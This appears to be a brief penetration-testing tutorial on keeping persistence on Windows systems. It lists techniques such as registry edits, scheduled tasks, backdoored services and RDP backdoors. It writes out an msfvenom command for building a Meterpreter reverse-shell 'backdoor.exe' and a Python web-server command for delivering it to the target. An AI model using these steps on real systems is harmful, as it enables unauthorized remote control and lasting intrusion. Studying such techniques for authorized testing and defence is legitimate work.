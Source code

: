 #Persistence

## What is Persistence?

Persistence is a post-exploitation activity used by penetration testers in order to keep access to a system throughout the whole assessment and not to have to re-exploit the target even if the system restarts.

It can be considered that there are two types of persistence. These two types are:

    Low privileged persistence
    Privileged user persistence

## Low privileged user persistence

Low privileged persistence means that the penetration tester gained and uses persistence techniques to keep his access to the target system under a normal user profile/account (a domain user with no administrative rights).

## Privileged user persistence

After gaining access to a system, sometimes (because it would be inaccurate to say always), a penetration tester will do privilege escalation in order to gain access to the highest privilege user that can be on a Windows machine (nt authority\system).

After privilege escalation, he will use persistence in order to keep the access he gained.

## Keeping persistence

Ways of keeping persistence:

    Startup folder persistence
    Editing registry keys
    Using scheduled tasks
    Using BITS
    Creating a backdoored service
    Creating another user
    Backdooring RDP

## Create a Metasploit backdoor using msfvenom. To create the backdoor use the below syntax:

    
`msfvenom -p windows/meterpreter/reverse_tcp <LHOST> <LPORT> -f exe > backdoor.exe` 
where LHOST is your IP and LPORT is he port Metasploit will listen for connections.


### Create a Metasploit listener.


## Using python create a webserver (python -m SimpleHTTPServer 80) and deliver (download) the backdoor to the target system you previously logged in.
